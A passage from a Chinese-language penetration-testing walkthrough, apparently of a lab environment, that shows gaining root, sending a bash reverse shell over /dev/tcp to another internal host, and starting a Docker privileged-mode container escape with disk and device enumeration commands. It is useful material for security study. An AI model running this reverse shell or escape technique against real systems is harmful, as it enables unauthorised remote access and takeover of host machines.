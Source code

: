 成功获得root权限，把shell再反弹到ubuntu(web 1)中

```
bash -c 'exec bash -i &>/dev/tcp/192.168.52.10/5555 <&1'
```

![截图](2b9f0859543c1e062e8f69ed82edf573.png)

前面说到这是个docker环境，实际IP为192.168.52.20，所以我们要进行docker逃逸

## Docker特权模式逃逸

### 原理

使用特权模式启动容器，可以获取大量设备文件访问权限。因为当管理员执行`docker run —privileged`时，Docker容器将被允许访问主机上的所有设备，并可以执行`mount`命令进行挂载

### 漏洞利用

```
fdisk -l #查看磁盘文件
ls /dev #查看设备文件
```
